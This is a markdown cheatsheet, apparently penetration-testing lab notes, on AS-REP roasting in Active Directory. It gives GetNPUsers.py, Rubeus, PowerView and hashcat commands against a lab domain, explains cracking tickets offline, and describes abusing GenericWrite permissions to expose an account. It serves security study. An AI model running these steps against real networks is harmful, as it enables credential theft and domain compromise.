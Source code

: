 # Cheatsheet

`find all users where donotrequirepreauth enabled  and perform asreproast`
```
GetNPUsers.py INLANEFREIGHT.LOCAL/username -dc-ip 172.16.5.5 -password <password>
```
2. another method that takes 2 steps
`slower method(requires a users file)`
```shell-session
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```
- `-no-pass`: Do not supply credentials; attempt AS-REP Roasting.
- `-usersfile`: Provide a list of usernames to test for this vulnerability.
```powershell-session
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```


`crack asrep`
```shell-session
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```
`Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser`
```powershell-session
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.

With pre-authentication, a user enters their password, which encrypts a time stamp. 
The Domain Controller will decrypt this to validate that the correct password was used.

If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller.

This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.
![](Screenshots/Pasted%20image%2020241224174240.png)
If an attacker has `GenericWrite` or `GenericAll` permissions over an account, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again. Like Kerberoasting, the success of this attack depends on the account having a relatively weak password.

Below is an example of the attack. PowerView can be used to enumerate users with their UAC value set to `DONT_REQ_PREAUTH`.

#### Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser


```powershell-session
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```